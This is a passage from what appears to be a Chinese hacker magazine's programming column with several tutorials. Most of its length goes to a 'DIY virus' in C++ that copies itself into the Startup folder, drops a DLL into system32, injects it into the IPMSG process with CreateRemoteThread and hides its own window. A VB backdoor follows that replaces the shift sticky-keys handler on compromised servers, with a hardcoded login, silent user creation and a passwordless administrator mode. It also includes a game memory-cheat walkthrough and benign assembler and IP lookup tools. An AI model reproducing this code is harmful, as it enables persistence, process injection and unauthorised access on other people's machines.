在 Windows 系统中，每个进程都有自己独立的地址空间，这样一来，一个应用程序就无法进入到另一个进程的地址空间而破坏另一个进程的运行，这使得系统更加的稳定。但相反，如果我们要对自己感兴趣的进程进行操作也就变得复杂起来。比如我们要为另一个进程创建的窗口建立子类或是要想从其中一个感兴趣的进程中取得一些有趣的信息（比如我们想得到 Windows 2000 用户的登录密码），而 DLL 注入技术就正好可以解决这些问题，DLL 注入就是将 DLL 插入到其它我们指定的进程的地址空间中，使得我们可以对感兴趣的进程进行操作。


图1


图2

## 图3

首先，我们打开VC6.0，创建一个MFC的exe工程，如图1、图2所示。接下来我们实现程序的自动功能，实现自启动的方法有很多，目前较流行的是使用写入注册表的方法，因为我们主要是通过编程来了解病毒的实现流程，所以今天就使用更简单一点的方法，就是把我们的程序放到根目录的“C:\Documents and Settings\All Users\「开始」菜单\程序\启动”文件夹下。来写代码实现这一功能，在类视图中双击InitInstance()函数，如图3，我们要在此函数里添加代码。

```
cpp
char szPath[256]={0};
char szDes[256]="C:\\Documents and Settings\\All Users\\「开始」菜单\\程序\\启动";
DWORD dwLeng=::GetModuleFileName(NULL,szPath,sizeof(szPath));
::CopyFile(szPath,strcat(szDes,"\\Virus.exe"),1);
```

我们定义了两个字符数组用来存放启动文件夹的路径，GetModuleFileName函数用来获得本程序的文件名，放在szPath字符数组里，其函数原型如下：

```
cpp
DWORD GetModuleFileName(
    HMODULE hModule,      // 模块句柄（NULL就是获取本程序文件名）
    LPTSTR lpFilename,    // 存放文件名的缓冲区
    DWORD nSize           // 缓冲区的大小
);
```

dwLeng用来接收文件的长度，最后使用CopyFile把我们的程序拷贝到启动文件夹里面，函数原型如下：

```
cpp
BOOL CopyFile(
    LPCTSTR lpExistingFileName, // 已存在的文件
    LPCTSTR lpNewFileName,      // 新的文件
    BOOL bFailIfExists          // 若目标已存在则返回失败
);
```

strcat是文件拼接函数，就是把szDes里的字符串和“\\Virus.exe”字符串拼接起来。这样，我们就实现了程序的自启动功能。接下来，我们就要实现注入了。这可是本程序的核心代码，我们先创建几个全局变量和一个全局函数，如图4。

```
cpp
char g_DesProcess[]="IPMSG.exe";
char g_szPath[]="C:\\WINDOWS\\system32\\PlayDll.dll";
HANDLE g_hProcess=NULL;
DWORD g_dwProcessID=0;
BOOL g_bIsinject=FALSE;

DWORD FindProcess(LPCSTR lpProcess)
{
    PROCESSENTRY32 p32;
    p32.dwSize=sizeof(p32);
    HANDLE hSnap=::CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS,0);
    ::Process32First(hSnap,&p32);
    do {
        if (strcmp(lpProcess,p32.szExeFile)==0) {
            return p32.th32ProcessID;
        }
    } while(::Process32Next(hSnap,&p32));
    return 0;
}
```

## 图4

g_DesProcess里面保存了“飞鸽”的进程名，g_szPath则存放我们准备释放Dll的路径，g_hProcess存放目标进程的句柄，初始化为NULL，g_dwProcessID是目标进程的ID号，g_bIsinject判断程序是否被注入过。FindProcess函数是用来查找目标窗中是否有“飞鸽”的进程。不过在这之前我们需要先给我们的程序添加一个头文件 `#include <TLHELP32.H>`，因为我们要用到进程快照函数，而这些函数的定义是放在这个头文件中的。我们来创建一个进程快照，然后使用 do-while 循环从第一个进程开始查找，如果进程名和传入的参数lpProcess相同，就返回该进程的ID号，函数原型如下：

```
cpp
HANDLE WINAPI CreateToolhelp32Snapshot(
    DWORD dwFlags,            // 指定快照的类型
    DWORD th32ProcessID       // 指定进程的ID（注：只有当快照类型为TH32CS_SNAPHEAPLIST或者TH32CS_SNAPMODULE时，才需要给值）
);

BOOL WINAPI Process32First(
    HANDLE hSnapshot,         // 进程快照句柄
    LPPROCESSENTRY32 lppe      // PROCESSENTRY32结构的指针（注：里面有进程的信息）
);

BOOL WINAPI Process32Next(
    HANDLE hSnapshot,         // 进程快照句柄
    LPPROCESSENTRY32 lppe      // PROCESSENTRY32结构的指针（注：里面有进程的信息）
);
```

现在我们单击类视图里CVirusDlg类前面的小“+”号，在OnInitDialog()函数创建一个线程，如图5。

```
cpp
ULONG ulThreadID=0;
::CreateThread(NULL,0,ThreadProc,this,0,&ulThreadID);
```

ulThreadID存放线程ID，CreateThread函数是创建一个线程，函数原型如下：

```
cpp
HANDLE CreateThread(
    LPSECURITY_ATTRIBUTES lpThreadAttributes, // 安全属性
    DWORD dwStackSize,                        // 堆栈大小
    LPTHREAD_START_ROUTINE lpStartAddress,    // 线程函数（注：里面是线程的具体实现）
    LPVOID lpParameter,                       // 传给线程函数的参数
    DWORD dwCreationFlags,                    // 创建标记（0就是一创建就运行，CREATE_SUSPENDED就是一创建就挂起）
    LPDWORD lpThreadId                        // 线程ID
);
```

接下来，我们完成线程函数：

```
cpp
DWORD WINAPI ThreadProc(LPVOID lpParameter)
{
    CVirusDlg* pThis=(CVirusDlg*)lpParameter;

    while(TRUE)
    {
        if (g_bIsinject)
        {
            break;
        }
        DWORD ret=FindProcess(g_DesProcess);
        if (ret!=0)
        {
            ::SetTimer(pThis->GetSafeHwnd(),1,1000,(TIMERPROC)TimerProc);
            g_bIsinject=TRUE;
            break;
        }
        else
        {
            ::Sleep(10000);
            continue;
        }
    }
    return 0;
}
```

定义了一个CVirusDlg类指针pThis，指向传入的参数lpParameter，因为参数不是CVirusDlg类型，所以我们要强制转换。建立一个while永真循环，不停地查找“飞鸽”的进程……到，就设置一个时钟，在时钟函数里完成dll注入，否则就延迟10秒钟再找，如图6）。函数原型如下：

```
c
UINT_PTR SetTimer(
    HWND hWnd,          //窗口句柄
    UINT_PTR nIDEvent,  //时钟ID
    UINT uElapse,       //延迟时间（注：单位毫秒）
    TIMERPROC lpTimerFunc //时钟函数
);
```

## 图6

终于来到我们的关键一步了，小菜们深吸一口气，跟着我偷偷的把我们的Dll放到目标进程里，如图7。

```
c
VOID CALLBACK TimerProc(
    HWND hwnd,          // handle to window
    UINT uMsg,          // WM_TIMER message
    UINT_PTR idEvent,   // timer identifier
    DWORD dwTime        // current system time
);
```

```
c
{
    g_dwProcessID=FindProcess(g_DesProcess);
    g_hProcess=::OpenProcess(PROCESS_ALL_ACCESS,FALSE,g_dwProcessID);
    if(g_hProcess==NULL)
    {
        MessageBox(NULL,"打开进程失败!",NULL,MB_OK); //打开失败就弹个提示
        return;
    }

    LPVOID lpAddr=::VirtualAllocEx(g_hProcess,NULL,sizeof(g_szPath)+sizeof(char),MEM_COMMIT,
                                   PAGE_READWRITE);
    if(lpAddr==NULL)
    {
        MessageBox(NULL,"内存地址申请失败!",NULL,MB_OK); //申请失败就弹个提示
        CloseHandle(g_hProcess); //关闭进程句柄
        return;
    }

    DWORD dwWrite=0;
    if(!WriteProcessMemory(g_hProcess,lpAddr,(LPVOID)g_szPath,sizeof(g_szPath)+sizeof(char),&dwWrite))
    {
        MessageBox(NULL,"写入内存失败!",NULL,MB_OK); //如果写入失败就弹一个提示
        ::VirtualFreeEx(g_hProcess,lpAddr,sizeof(g_szPath)+sizeof(char),MEM_DECOMMIT); //释放掉申请的空间
        ::CloseHandle(g_hProcess); //把进程句柄关掉
        return;
    }

    DWORD dwThreadID=0;
    HANDLE hThread=::CreateRemoteThread(g_hProcess,NULL,0,(LPTHREAD_START_ROUTINE)LoadLibraryA,
                                        lpAddr,0,&dwThreadID);
    if(hThread==NULL)
    {
        MessageBox(NULL,"创建远程线程失败!",NULL,MB_OK); //如果创建远程线程失败就弹个提示
        ::VirtualFreeEx(g_hProcess,lpAddr,sizeof(g_szPath)+sizeof(char),MEM_DECOMMIT);
    }
}
```

```
c
CloseHandle(g_hProcess); // 关闭进程句柄
CloseHandle(hThread);    // 关闭线程句柄
...
WaitForSingleObject(hThread,-1); // 等待线程返回
VirtualFreeEx(g_hProcess, lpAddr, sizeof(...), MEM_DECOMMIT); // 释放空间
CloseHandle(hThread); // 关闭线程句柄
```

```
c
HANDLE CreateRemoteThread(
  HANDLE hProcess,
  LPSECURITY_ATTRIBUTES lpThreadAttributes,
  DWORD dwStackSize,
  LPTHREAD_START_ROUTINE lpStartAddress,
  LPVOID lpParameter,
  DWORD dwCreationFlags,
  LPDWORD lpThreadId
);

HMODULE LoadLibrary(
  LPCSTR lpFileName // DLL 文件名
);
```

我们先用自定义的全局函数 FindProcess 得到目标进程的 ID，然后通过 ID 打开目标进程，得到它的句柄。因为 Windows 下应用程序有自己的地址空间，它们只能调用自己地址空间中的函数，所以要把 DLL 注入到目标进程的地址空间中才能让目标进程执行我们想让做的事情。我们要使用 VirtualAllocEx 函数在目标进程里申请一段空间，函数原型如下：

```
c
LPVOID VirtualAllocEx(
  HANDLE hProcess,
  LPVOID lpAddress,
  SIZE_T dwSize,
  DWORD flAllocationType,
  DWORD flProtect
);
```

然后使用 WriteProcessMemory 函数把 DLL 文件路径写入到申请的地址空间去，函数原型如下：

```
c
BOOL WriteProcessMemory(
  HANDLE hProcess,
  LPVOID lpBaseAddress,
  LPVOID lpBuffer,
  DWORD nSize,
  LPDWORD lpNumberOfBytesWritten
);
```

接下来使用 CreateRemoteThread 函数在目标进程中创建一个远程线程，这个线程就是调用 LoadLibrary 把我们的 DLL 文件加载到目标程序中去，函数原型如下：

```
c
HANDLE CreateRemoteThread(
  HANDLE hProcess,
  LPSECURITY_ATTRIBUTES lpThreadAttributes,
  DWORD dwStackSize,
  ...
);
```

最后调用 WaitForSingleObject 函数等待远程线程返回，然后释放申请的内存空间，关闭远程线程和进程句柄，函数原型如下：

```
c
DWORD WaitForSingleObject(
  HANDLE hHandle,
  DWORD dwMilliseconds
);

BOOL VirtualFreeEx(
  HANDLE hProcess,
  LPVOID lpAddress,
  SIZE_T dwSize,
  DWORD dwFreeType
);

BOOL CloseHandle(
  HANDLE hObject
);
```

现在，我们就完成了对目标进程的注入……我们说了半天的 DLL 注入，但 DLL 文件在哪儿还不知道。下面开始完成我们的 DLL。如果想要完成什么功能，把代码写在 DLL 里面就可以了，这里只是简单完成一个弹出对话框的功能（看完本文后可自由发挥）。

在类视图下面选第三个文件视图，选中 Workspace“Virus”点鼠标右键，选择“Add New Project to Workspace”，如图 8，在 New 对话框中选中……

## 图8

# 黑客编程

“MFC AppWizard[dll]”，我们给工程取名“PlayDll”，点击OK，如图9，然后选“MFC Extension DLL(using shared MFC DLL)”点Finish完成我们Dll工程的创建。

## 图9

## 图10

原型如下：

```
cpp
int MessageBox(
    HWND hWnd,      // 窗口句柄
    LPCTSTR lpText, // 对话框中的字符
    LPCTSTR lpCaption, // 对话框的标题
    UINT uType      // 类型
);
```

## 图11

我们再来设置一下VC，使Dll文件直接生成在我们主工程的debug目录下，以方便我们调试。选择菜单栏的Project（工程），选择Settings（设置），在弹出的对话框左边选中PlayDll，右边选中Link（连接）项，在Output file name编辑框中修改成“../Debug/PlayDll.dll”后点OK就可以了，如图11。

返回到我们的类视图，此时Dll工程已经在我们的类视图里面了，如图10。双击DllMain，来到我们的Dll工程中，我们在里面添加一条弹出对话框函数，函数原型如上。

这时可能有的小菜会认为，终于完成了吧，不好意思，让大家失望了，我们还没有结束呢。不过这一步蛮有意思的，就是让别人双击完我们的程序后，在根目录中释放我们的Dll文件，然后我们的程序再把Dll注入到目标程序，在目标程序加载我们的Dll时，我们Dll中的代码就有机会执行了。

好了，各位小菜，让我们向自己人生中的第一个DIY病毒冲锋。在类视图中选择Virus classes点右键，选择“Set as Active Project”，如图12，然后选择下面的资源视图，在Virus resources上点右键选择Import，找到我们的Dll文件后，在弹出的对话框中给我们的资源写个类型，我写的是“dll”，这样就完成了，如图13、图14。

## 图12

## 图13

## 图14

返回到我们的类视图中，在我们写自启动代码的InitInstance函数里添加我们的代码。

```
cpp
DWORD dwWritten=0;
```

# 黑客编程

```cpp
HMODULE hInstance=::GetModuleHandle(NULL);
HRSRC hRsrc=::FindResource(hInstance,
    MAKEINTRESOURCE(IDR_DLL1),"dll");
if (NULL==hRsrc) {
    AfxMessageBox("FindResource出错");
    return FALSE;
}
DWORD dwDllSize=::SizeofResource(NULL,hRsrc);
if (0==dwDllSize) {
    AfxMessageBox("SizeofResource出错");
    return FALSE;
}
HGLOBAL hGlobal=::LoadResource(NULL,hRsrc);
if (NULL==hGlobal) {
    AfxMessageBox("LoadResource出错");
    return FALSE;
}
LPVOID pBuffer=::LockResource(hGlobal);
if (NULL==pBuffer) {
    AfxMessageBox("LockResource出错");
    return FALSE;
}
char szFilePath[MAXBYTE]={0};
GetSystemDirectory(szFilePath,MAXBYTE);
char szServiceExePath[]="PlayDll.dll";
wsprintf(szServiceExePath,"%s\\PlayDll.dll",szFilePath);
HANDLE hFileForDll=::CreateFile(
    szServiceExePath,
    GENERIC_WRITE,0,NULL,CREATE_ALWAYS,
    FILE_ATTRIBUTE_NORMAL,// ...
    NULL);
if (hFileForDll==INVALID_HANDLE_VALUE) {
    AfxMessageBox("DLL释放出错");
    return FALSE;
}
::WriteFile(hFileForDll,pBuffer,dwDllSize,&dwWritten,NULL);
::CloseHandle(hFileForDll);
```

调用 `GetModuleHandle` 函数来获取本程序的模块句柄，接着使用 `FindResource` 函数找到我们的 DLL 资源，`SizeofResource` 函数获得资源大小，`LoadResource` 函数把资源载入内存，`LockResource` 函数得到资源在内存中的地址，`GetSystemDirectory` 得到系统目录路径并与 `PlayDll.dll` 拼接后写入目标文件。

`CreateFile` 函数创建文件，`WriteFile` 函数把 DLL 的二进制数据写入文件，这样可在目标主机根目录（或系统目录）生成 DLL 文件。函数原型如下：

```cpp
HMODULE GetModuleHandle(
    LPCTSTR lpModuleName // 模块名（NULL 表示本进程模块）
);

HRSRC FindResource(
    HMODULE hModule, // 模块句柄
    LPCTSTR lpName,  // 资源名
    LPCTSTR lpType   // 资源类型
);

DWORD SizeofResource(
    HMODULE hModule,
    HRSRC hResInfo
);

HGLOBAL LoadResource(
    HMODULE hModule,
    HRSRC hResInfo
);

LPVOID LockResource(
    HGLOBAL hResData
);

UINT GetSystemDirectory(
    LPTSTR lpBuffer,
    UINT uSize
);

HANDLE CreateFile(
    LPCTSTR lpFileName,
    DWORD dwDesiredAccess,
    DWORD dwShareMode,
    LPSECURITY_ATTRIBUTES lpSecurityAttributes,
    DWORD dwCreationDisposition,
    DWORD dwFlagsAndAttributes,
    HANDLE hTemplateFile
);

BOOL WriteFile(
    HANDLE hFile,
    LPCVOID lpBuffer,
    DWORD nNumberOfBytesToWrite,
    LPDWORD lpNumberOfBytesWritten,
    LPOVERLAPPED lpOverlapped
);
```

```cpp
DWORD nNumberOfBytesToWrite, //写入的字节数
LPDWORD lpNumberOfBytesWritten, //实际写入的字节数
LPOVERLAPPED lpOverlapped //NULL
);
```

this->GetSafeHwnd是获取本窗口的句柄，如果不为NULL，就调用ShowWindow隐藏窗口，隐藏最小化窗口，MoveWindow函数指定窗口大小为0。函数原型如下：

```
BOOL ShowWindow(
  HWND hWnd,   //窗口句柄
  int nCmdShow //显示状态
);

BOOL MoveWindow(
  HWND hWnd,   //窗口句柄
  int X,       //水平位置
  int Y,       //垂直位置
  int nWidth,  //宽度
  int nHeight, //高度
  BOOL bRepaint //是否重绘
);
```

哈哈，我们的DIY病毒基本成形了，现在只要再实现隐藏自己的功能就可以了收工了。在类视图中选中CVitusDlg点右键，选择“Add Window Message Handler”，如图15，在弹出的对话框中左边找到“WM_SIZE”双击，然后再双击右边的“WM_SIZE”，如图16，系统就会为我们生成一个OnSize函数，我们在里面添加如下代码：


图15


图16


图17

因为我们是使用MFC的类方法，所以以上两个函数可以把窗口句柄参数省略。好了，到了这一步，我们DIY的病毒就终于搞定了，我们把两个工程都编译一下，再把飞鸽打开，运行一下我们的病毒，看看效果如何吧。窗口一闪而过，并弹出了一个对话框，如图17，小菜们自己去根目录的system32下面搜索，肯定就能找到我们的Dll文件了，如图18。


图18

```
if(this->GetSafeHwnd() != NULL)
{
    ShowWindow(SW_SHOWMINIMIZED);
    ShowWindow(SW_HIDE);
    MoveWindow(0,0,0,0);
}
```

（文章中涉及到的相关代码以及ipmsg.exe，已经收录在了光盘中）

## VB打造独门黑客秘籍——超级强大的shift后门

逍遥叹（DST——铁育辉）

是地球人都知道，拿到服务器第一件事就是去留后门。主流的后门方法基本有中木马，但缺点是免杀期一过就飞了。还有就是今天所讲的shift后门。网上所流传的许多就是用CMD替换sethc.exe，不过这些后门被人绑马的绑马，留后门的留后门，搞得服务器成共享的了，心里那个怨气啊。最近刚在暗组发现一位仁兄用VB所写的shift后门，按下5次shift后调用后门，按下大写字母G后弹出后门登陆框，（用户和密码都是darkst）验证后方可使用功能。除了有调用CMD、Explorer的功能外，还有无CMD模式下用API添加用户。后门的文件信息和原文件一样，可以达到一定的以假乱真的效果。看了看源码，思路很不错，但功能太少，而且不是自己生的娃，咋看咋不亲。于是，抄起VB写了个shift后门，效果不错，拿出来分享。

首先看下程序界面，如图1。


图1

界面挺有友好的。（我在夸自己）程序的主要特点就是按下指定的字母将后门登录程序弹出。主要代码如下：

```
Private Sub Form_KeyPress(KeyAscii As Integer) '设定按键过程
    On Error Resume Next '容错过程
    Dim Key '定义KEY
    Key = Chr(KeyAscii)
    If Key = "D" Then '其中大写D是设定的按键
        Pass.Show '如果输入指定的按键，就将后门程序界面打开
    End If
End Sub
```

打开后门程序界面后就可以输入账号密码，代码如下：

```
Private Sub Command1_Click()
    On Error Resume Next '容错过程
    Dim Count As Integer
    Count = 0
    UserName = "xyt" '指定账号
    PassWord = "xyt" '指定密码
    If User.Text = UserName And Pswd.Text = PassWord Then '当用户输入正确账号与密码时
        Unload Me '将本后门登陆界面卸载
        BackDoor.Show '将后门界面打开
    Else
        MsgBox("小子，别想混进! ") '当用户输入错误账号与密码时，弹出警告
    End If
End Sub
```

现在本文的重点来了，上面说到暗组兄弟写的功能太少，于是加了些功能。no cmd add是无需CMD添加用户。过程如下：

```
'AddUser函数功能：添加用户
Function AddUser(ByVal UserName As String, ByVal PassWord As String) As Boolean
    AddUser = False
    Dim ParmError As Long
    Dim UI As USER_INFO_1
    Dim UI3 As LOCALGROUP_MEMBERS_INFO_3
    Dim Result As Long
    '……代码过多，省略掉……
End Function
```

```
Private Sub Command3_Click()
    On Error Resume Next
    Dim ok
    ok = AddUser(Text1.Text, Text2.Text)
    MsgBox "用户已经添加了！登陆去吧！", , "逍遥叹"
End Sub
```

其实就是设定2个函数来执行，由于涉及较复杂，就不做详细介绍，在以后的杂志中会陆续讲解给大家。open gold 是我想出来的另一个调用程序的功能。就是调用上帝之门，无需账号即可登录。后来想了想，单单开了上帝之门，万一被管理员或别有居心的人发现不就露馅了。于是就有了 off gold 这个功能。开完上帝之门用 administrator 登录后，再按 off gold 关掉就行了。代码如下：

```vb
Private Sub Command6_Click()
    Dim d() As Byte
    d = LoadResData(4,"CUSTOM")
    Open "C:\WINDOWS\system32\NtGodMode.exe" For Binary As #1
    Put #1, , d
    Close #1
    Shell "NtGodMode.exe ON"
    MsgBox "无密码请用administrator登陆，为了防止别人进来，请用完后关闭！", , "逍遥叹"
End Sub
```

```vb
Private Sub Command7_Click()
    Shell "NtGodMode.exe OFF"
    Kill "c:\windows\system32\NtGodMode.exe"
    MsgBox "可以防止别人进来了！", , "逍遥叹"
End Sub
```

```vb
Private Sub Command4_Click()
    Dim a() As Byte
    a = LoadResData(1,"CUSTOM")
    Open "C:\WINDOWS\system32\net.exe" For Binary As #1
    Put #1, , a
    Close #1

    Dim b() As Byte
    b = LoadResData(2,"CUSTOM")
    Open "C:\WINDOWS\system32\net1.exe" For Binary As #1
    Put #1, , b
    Close #1
    MsgBox "net与net1已经恢复！可以尝试命令！", , "逍遥叹"
End Sub

Private Sub Command5_Click()
    Dim c() As Byte
    c = LoadResData(3,"CUSTOM")
    Open "C:\WINDOWS\system32\cmd.exe" For Binary As #1
    Put #1, , c
    Close #1
    MsgBox "cmd已经恢复！", , "逍遥叹"
End Sub
```

其他功能分别是打开 CMD、打开 EXPLORER，还有在管理员删除 CMD 的情况下恢复 CMD，在管理员删除 NET 与 NET1 的情况下恢复 NET 与 NET1。恢复的过程就是将资源释放的过程。代码如下：

好了，现在我们的 shift 后门终于打造完毕，我再给大家提供一个替换 shift 的脚本，大家可以在我的程序基础上增加些功能或者改下版权，我是不介意的。

# 编写属于自己的可视化汇编器

暴风

大家在学习汇编的时候，每次都要进入 DOS，再进入源代码的目录，然后输入编译命令感觉是不是很麻烦？为了解决这个麻烦，大家是不是去下载过 IDE 的汇编编译器，可是有的要收费，免费的又不符合个人的心意，感觉很不爽。大家有没有冲动过编写属于自己的可视化汇编器，其实要弄一个这样的 IDE 环境，原理真的很简单。

首先 visual basic、C#、c++ builder、delphi 等可视化 IDE 中，初学者必须先会一些基础，否则无法方便地编写可视化的汇编编译器。还要对批处理命令有所了解。

文中给出可视化汇编编译器下载地址，并说明本文主要介绍其原理。微软提供了调用 exe、bat、chm 等 API 函数，这里主要调用 bat 文件和编译后的 exe 文件。

首先把 MASM.exe 和 LINK.exe 放到可视化编译器目录下。一般 IDE 有编辑代码区域，菜单设计和 API 调用后，重点是批处理命令：先把代码连接成 obj 文件（见图1）。


连接批处理命令如图2，使用 `masm out\new; >obj.txt`，调用 API 执行 masm.bat 后即可生成 obj 文件，`>obj.txt` 表示把编译信息输出到 obj.txt（见图3）。

若把这些文件读入可视化编译器中，就会变成图4效果。最后编译成 exe 的批处理命令使用 `link new; >exe.txt`（见图5），`>exe.txt` 与 `obj.txt` 用法相同（见图6、图7）。

像汇编查询器、汇编语言教程 chm、王爽汇编答案 chm 都可以用 API 调用，只需在菜单中写入代码即可。作者总结：将自定义语言翻译成汇编代码，再由汇编器编译产生 obj 和 exe。


# 打造《植物大战僵尸年度版》外挂程序

最近看了不少游戏外挂相关视频和文章，正逢《植物大战僵尸》年度版推出，作者希望做一个辅助工具并记录研究过程供初学者参考。

开始前先介绍工具：Cheat Engine V5.4 简体中文版（简称 CE）、OllyDBG（简称 OD）等。

- Cheat Engine V5.4 简体中文版（CE）
- 内存写入监视器 / OllyDBG（OD）

正文从分析阳光值开始：先进入游戏并记录阳光数值（示例为 150），再运行 CE 载入游戏进行搜索，如图1所示。


使用CE搜索前面记下的阳光数，数值：“150”，扫描类型：选“精确数值”，数值类型：选4字节。点击“首次搜索”得到如图2所示的结果。


图2


图3

找到很多包含数值“150”的地址，现在回到游戏进行操作以使阳光值发生改变。然后再使用CE进行新值的搜索，经过再次筛选后只剩下一个地址（如果不确定当前结果是否正确可以再次进入游戏并改变阳光值，然后观察剩下结果与刚刚改变的值是否一致）双击该地址将其加入到下边的栏里并右击该地址选择“查找写入该地址的代码”调出监视窗口。再次回到游戏，试着改变当前的阳光值，这时会看到监视窗口里已经记录了改写该地址的指令了如图3所示。选中该指令，点击“更多信息”弹出如图4所示的对话框。


图4

指令：`add [edi+00005578],eax` 红色显示的这句代码指示将EAX中的值写入到EDI+00005578处的地址，并且下面提示这是一个指针的值（EDI的内容）。我们记下上面EDI显示的内容（EDI=[9651008]），再回到CE中搜索“19651008”这个值，选中“HEX”，使用十六进制、四字节方式搜索，结果如图5所示。


图5

找到了很多个包含此数值的地址，把最前面的几个地址保存到下面的栏中然后回到游戏选择“菜单”>“重新开始本关卡”，游戏初始化完毕后，查看刚刚保存的那几个地址的内容都发生了变化，再次按照前面的方式查找阳光的值并得到进行写入操作的那条指令，查看EDI的内容，会发现下边栏中的地址：010A9B88的内容和EDI的内容相等，结果如图6所示。


图6

# 黑客编程

右击这个地址选择“查找写入该地址的代码”调出监视窗口。再次回到游戏选择“菜单”>“重新开始本关卡”，游戏初始化完毕后，查看监视窗口会看到如图7所示的内容。


图7

指令：`mov [edi+00000868],eax`，指令显示EDI还是一个指针的内容，我们再次记下EDI的内容（EDI=010A9320）并返回到CE中查找该值，将得到的结果中的前几个地址加入到下边栏中。结果如图8所示。

再一次回到游戏选择“菜单”>“重新开始本关卡”，游戏初始化完毕后，发现上面刚刚保存的地址中的数据没有变化。再次运行游戏并重新载入，选择“保存当前地址列表和代码列表”，初始化完毕后会发现CE地址栏中保存的内容依然没有改变。由此可确定地址：`007794F8`就是要找的一级地址。

```
地址：007794F8中取出的内容 + 00000868 这个偏移量 = 二级地址

二级地址中取出的内容 + 00005578 这个偏移量 = 得到阳光的值

即：`[[[007794F8]+00000868]+00005578]`
```

通过上述定位到的地址：`0044BA45`，我们使用OD可以定位到如下代码。通过分析可知，该段代码完成游戏中获取不同类型阳光、金钱判断并累加的过程，因此可以通过修改这些值来增加阳光、金钱数量。

通过同样方式可以获取到金币数的存放位置（金钱的搜索方式：金币数除以10，例如有1010个金币，搜索时要搜索101），最终定位到以下代码：

```
0044BAAE  MOV EAX,DWORD PTR DS:[ESI]
// [ESI]=010A9320
0044BAB0  MOV EAX,DWORD PTR DS:[EAX+950]
0044BAB6  ADD DWORD PTR DS:[EAX+50],EDX
// 金币值相加的位置
0044BAB9  MOV ECX,DWORD PTR DS:[EAX+50]
0044BABC  CMP ECX,1869F   // 金钱数不能大于99999（十进制）
```

通过多次中断观察这段代码发现地址`0044BAAE`处的ESI中的值（`[ESI]=010A9320`）始终相同，这个值和我们在查找阳光值时得到的地址`007794F8`中取出的数值相同，由此可得公式：

```
地址：007794F8中取出的内容 + 00000950 这个偏移量 = 二级地址

二级地址中取出的内容 + 00000050 这个偏移量 = 得到金币的值

即：`[[[007794F8]+00000950]+00000050]`
```

通过使用CE对游戏每次购买道具时减少阳光的代码进行定位，定位到如下代码：

```
00433F86  89 B7 78 55 00 00    mov [edi+00005578],esi
```

我们用OD载入程序并定位到地址：`00433F86`处。通过分析程序购买道具这一过程，定位到如下代码段：

```
004818E6  74 46          JE SHORT PlantsVs.0048192E
（代码片段如下）
0048BEE8  8B40 10       MOV EAX,DWORD PTR DS:[EAX+10]   // 道具的价值入EAX
（代码片段如下）
0042638C  E8 CF000100   CALL PlantsVs.00436460   // 获取道具值
00426391  8BD8          MOV EBX,EAX            // 道具值入EBX
00426393  E8 D8DB0000   CALL PlantsVs.00433F70 // 执行减去的过程
```

程序会通过每种道具的代码号最终换算出这种道具的价值（即阳光值），然后通过起始地址“0076C600+偏移量”的方式获取到该道具的价值以供下一步操作时使用。我们使用OD定位到地址0076C600处，如图9所示。


图8

速切换到CE中再次搜索。搜索类型为：“减少的数据”，数值类型为：“4字节”。反复这一过程。最终获得如图11所示的结果（僵尸在被打掉头之后的血量为68）。我们最终会定位到如下的代码段：

```
00566D10  |. 89B5 C8000000    MOV DWORD PTR SS:[EBP+C8],ESI  //定位到的关键代码
```


图10


图9

从此址0076C600处开始到地址0076CD50处结束共有34（十六进制）种道具，道具价值的间隔为：

```
0x0076C634（第二种道具价值位置）- 0x0076C610（第一种道具价值位置）= 0x00000024
```

好了现在我们已经得到了阳光值和金钱的地址可以修改他们以获取我们想要的数值，并且也可以将每种道具的价值修改成任意的数值了，那我们再来看看怎么能快速的秒杀那些僵尸吧。

运行游戏并打开CE将游戏载入，开始进行游戏并等待第一个僵尸的出现，当第一个僵尸出现的时候使用CE首次搜索，搜索类型为：“未知初始化数值”，数值类型为：“4字节”，如图10所示：

完毕后返回游戏中，购买一个“豌豆射手”道具并放在出现僵尸的那一行上，等待“豌豆射手”将子弹打在僵尸身上，迅速切换到CE中再次搜索……


图11

通过对几类僵尸的反复测试最终我们将定位到如下的几个代码段：（由于版面限制此处所涉及到的代码已收录到本期光盘中）。

通过修改的几个功能我们已经可以轻松的过关斩将了。这时又让我想起了老版本的“植物大战僵尸”的那个经典辅助工具，上面实现了很多等功能，研究一下这些功能是怎样实现的吧，下是又翻出老版本的游戏和辅助工具，然后使用一款叫做……


开“内存写入监视器”。“内存写入监视器”提供了两种监视方式来监视记录指定程序对其他程序进行内存写入操作情况，这里我直接使用PID方式，通过“任务管理器”查看得到辅助工具的PID并填入到指定的文本框内，然后点击“开始监控”，返回到游戏中，这里我们就以“增强食人植物”的功能来演示操作相关步骤，最终获取到的结果如图12所示，软件最终实现功能和界面如图13。（注：文章到此未结束，后面涉及到的代码分析，及C++制作方法由于版面限制，文章后半部分收录到光盘中）。


“内存写入监视器”的工具来查看辅助工具对游戏做了些什么。先运行老版本的“植物大战僵尸”游戏再打开辅助工具，最后打……

## 黑客编程——IP查询工具

Michael

IP地址是网络上最常用的“身份证”，大家可能在查ip地址时，会去百度查，但是这样比较浪费时间，所以今天我就和大家一起编一个简单的ip查询工具，主要利用的是百度的返回物理地址页面，然后取回结果。

首先打开vc6.0新建一个MFC工程（图1），点击“确定”按钮后选择“基本对话框，然后再点击“完成”就建好一个空的工程了，我们在左边的Resource View面板中的Dialog下看到一个IDD_MY_DIALOGUE，双击它，右边那个就是我们要制作的用户界面了（图2），现在我们要做的就是把需要用到的控件从控件工具栏拖到这个空白的对话框中（图3）。


分别添加一个编辑框（用于输入要查询的ip地址）和两个按键（查询、取消）。程序界面大至就是这样子，大家先别急着庆祝，这里完成的只是简单的开头工作，接下来就是这个软件的核心——程序，这也是个难点。虽然我们可以使用http协议来实现，但这样会有点麻烦，所以本文就使用了微软提供的CInternetSession和CHttpFile类来实现，然后通过CInternetSession类的OpenURL方法来取得CHttpFile的对象，最后通过ReadString……

读取返回信息并提取信息即可。ok，follow me please。ctrl+w 打开类向导为编译框添加变量 m_ip，用于接受我们输入文本框的 ip（如图4）。要用到上两个类我们需要添加 `#include <afxinet.h>` 头文件（如图5）。


图4


图5

ok，下面我们开始写代码，选择图像界面双击查询按钮为其添加功能代码。

```
cpp
UpdateData(true);
```

```
cpp
CString stripcheck="http://www.baidu.com/s?wd=";
stripcheck+=m_ip;
stripcheck+="&cl=3";
CInternetSession ipsession(NULL,0);
CString strline, m_returnstr, str;
CHttpFile* iphttpfile=(CHttpFile*)ipsession.OpenURL(stripcheck);
if(iphttpfile==NULL)
{
    MessageBox("wrong");
    return;
}
while(iphttpfile->ReadString(strline)){
    m_returnstr+=strline;
}
